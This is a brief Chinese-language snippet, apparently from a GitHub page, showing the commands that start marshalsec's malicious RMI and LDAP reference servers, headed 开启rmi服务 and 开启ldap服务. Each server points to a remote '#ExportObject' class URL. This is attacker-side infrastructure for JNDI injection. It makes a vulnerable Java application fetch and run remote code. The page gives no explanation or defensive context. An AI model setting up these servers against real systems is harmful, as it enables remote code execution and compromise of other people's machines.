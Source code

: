 #### marshalsec

开启rmi服务

```javascript
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://rmi_server_ip:rmi_port/#ExportObject 1099  
```

开启ldap服务

```javascript
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ldap_server_ip:ldap_port/#ExportObject 1389
```

